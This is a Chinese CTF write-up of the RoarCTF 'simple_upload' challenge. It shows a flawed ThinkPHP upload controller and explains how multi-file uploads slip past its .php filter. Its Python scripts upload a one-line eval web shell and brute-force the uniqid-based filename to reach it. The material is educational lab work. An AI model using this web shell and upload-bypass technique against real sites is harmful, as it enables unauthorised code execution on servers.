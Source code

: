 RoarCTF-simple_upload
==========

* tip：该题目在BUUCTF的题库里有环境复现：https://buuoj.cn

题目描述
-----

打开题目链接之后，看到如下代码<br>
```php
 <?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller
{
    public function index()
    {
        show_source(__FILE__);
    }
    public function upload()
    {
        $uploadFile = $_FILES['file'] ;
        
        if (strstr(strtolower($uploadFile['name']), ".php") ) {
            return false;
        }
        
        $upload = new \Think\Upload();// 实例化上传类
        $upload->maxSize  = 4096 ;// 设置附件上传大小
        $upload->allowExts  = array('jpg', 'gif', 'png', 'jpeg');// 设置附件上传类型
        $upload->rootPath = './Public/Uploads/';// 设置附件上传目录
        $upload->savePath = '';// 设置附件上传子目录
        $info = $upload->upload() ;
        if(!$info) {// 上传错误提示错误信息
          $this->error($upload->getError());
          return;
        }else{// 上传成功 获取上传文件信息
          $url = __ROOT__.substr($upload->rootPath,1).$info['file']['savepath'].$info['file']['savename'] ;
          echo json_encode(array("url"=>$url,"success"=>1));
        }
    }
} 
```
可以发现，该站是`ThinkPHP`写的一个文件上传网站。<br>

题目分析
-------

* 1、分析代码可知，该站可以通过`POST`方法实现上传文件功能，但是从第14行代码发现php后缀的文件被禁止上传，因此我们需要想办法绕过限制，上传`php小马`。<br><br>
* 2、该脚本通过`allowExts`方法设置上传类型，但是查阅资料得知这种使用方法是不对的，并不能限制上传的文件类型。<br><br>
* 3、upload()函数不传参时为多文件上传，整个`$_FILES`数组的文件都会上传保存，可以利用该属性通过一次访问上传多个文件。<br><br>
结合以上分析得知的内容可知，可以利用`$_FILES`数组上传多个文件来绕过对php的过滤。<br><br>

解题过程
-------

### 1、测试上传功能

首先编写python脚本向网站POST一个非php的文件，这里上传了一个`txt`文件，测试能否正常上传文件，下面是上传测试代码段：<br>
```python
url = "http://c85e5a48-c5f8-4a5b-9a30-6a81677fd75e.node3.buuoj.cn"
path = url + "/index.php/home/index/upload"
files = {"file":("ma.txt",'hello')}
r = requests.post(path, files=files)
print(r.text)
```
回显内容如下:<br>
```
{"url":"\/Public\/Uploads\/2019-10-24\/5db1841fb439d.txt","success":1}
```
能够成功上传文件。<br>
### 2、测试上传php文件：

```python
url = "http://c85e5a48-c5f8-4a5b-9a30-6a81677fd75e.node3.buuoj.cn"
path = url + "/index.php/home/index/upload"
files = {"file":("ma.txt",'hello'), "file1":("ma.php", '<?php eval($_GET["cmd"]);')}
r = requests.post(path, files=files)
```
回显内容如下：<br>
```
{"url":"\/Public\/Uploads\/2019-10-24\/5db18420027a3.txt","success":1}
{"url":"\/Public\/Uploads\/","success":1}
```
由回显可知，我们成功上传了php文件,但是并没有回显php的文件名<br>
* 其实在比赛做赛题的时候发现，直接上传php文件也是可以成功的，只不过也不会回显文件名。<br><br>
通过多次上传发现规律：新文件名是以`微秒`为单位转`十六进制`的字符串（后来在WP中了解到ThinkPHP中，文件名是通过`uniqid`函数生成的，`uniqid`函数是基于以微秒计的当前时间计算的）<br><br>
因此找到php的文件名，理论上就可以成功连接到我们上传的小马，而方法只有一个，那就是`爆破`。<br>

### 3、爆破php文件名

爆破代码如下：<br>
```python
import requests

url = "http://c85e5a48-c5f8-4a5b-9a30-6a81677fd75e.node3.buuoj.cn"
path = url + "/index.php/home/index/upload"
files = {"file":("ma.txt",'hello'), "file1":("ma.php", '<?php eval($_GET["cmd"]);')}
r = requests.post(path, files=files)
t1 = r.text.split("/")[-1].split(".")[0]
print (t1)

s = "1234567890abcdef"
for i in s:
    for j in s:
        for k in s:
            path = url + "/Public/Uploads/2019-10-24/" + t1[:-3] + "%s%s%s.php" % (i, j, k)
            r = requests.get(path, timeout=1)
            print(path)
            if r.status_code != 404:
                print(path)
                # print(r.text)
                break
```
由于我们是利用`$_FILES`数组的属性实现一次访问，上传两个文件，因此中间相隔的时间较短，利用以上单线程的爆破即可拿到php的文件名，然后常规操作连接小马拿flag。<br><br>
这里还有另一种方法是利用BP进行爆破，只需爆破文件名的后三个字符即可，其实原理是一样的，只是工具不同而已。<br><br>
 ![](./images/2.PNG)
 <br>
但是在BUUCTF的站上使用BP爆破时会回显`429 Too Many Requests (太多请求)`,同样如果用自己的多线程代码去爆破也会遇到这个问题，是网站为了限制客户端的请求数量的配置，没办法，只能用单线程。<br>

思考总结
-------

在比赛的时候，由于不了解代码中一次访问可以上传多个文件的漏洞，便采用了上传三次文件的方法（第一次上传txt，第二次传php小马，第三次再传txt，以此得到命名范围），这就导致第一次和第三次拿到的文件名范围比较广，爆破困难，当时自己写了个蹩脚的多线程，最终也没能成功爆破出文件名...<br>
赛后看了几个WP关键步骤还是在于爆破文件名，我采用的这种方法也有人成功拿到了flag...不过正解应该还是利用漏洞一次上传多个文件来爆破吧。
